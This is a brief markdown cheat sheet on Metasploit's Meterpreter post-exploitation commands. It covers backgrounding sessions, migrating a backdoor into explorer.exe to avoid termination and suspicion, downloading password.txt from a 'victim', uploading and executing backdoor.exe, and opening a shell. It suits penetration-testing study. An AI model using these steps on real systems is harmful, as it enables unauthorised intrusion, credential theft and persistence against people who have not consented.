 # Meterpreter basics (Metasploit)
-   commands to run after gaining access to the victims machine using created backdoor and catching connection in Metasploit

## Background
```bash
background
```
-   backgrounds the current session => gets back to the `msfconsole` and keeps the session runing in the background
-   to see all the sessions running in the bg use `sessions -l`
-   to get back into the session use `sessions -i 2`, 2 is the number of the session

## Migrate
```bash
sysinfo # shows info about machine (operating system, architecture, meterpreter etc.)
ps  # list all the processes running on the machine, find for example explorer.exe and put the id to migrate command
migrate 2115 # this migrates the backdoor process which we are connected through to specified process number
```
-   it is always good idea to migrate backdoor process to trusted one, that it won't be terminated. Good example on windows is explorer.exe
-   after migration it will look like windows is connected to port 8080, which is kinda normal behaviour => less suspicious

## Download, Upload, Execute
```bash
download password.txt # downloads the file from the victims machine
upload backdoor.exe # upload the file to the victims machine
execute backdoor.exe # execute the file
```

## Shell
```bash
shell # switch from meterpreter to windows shell
``` 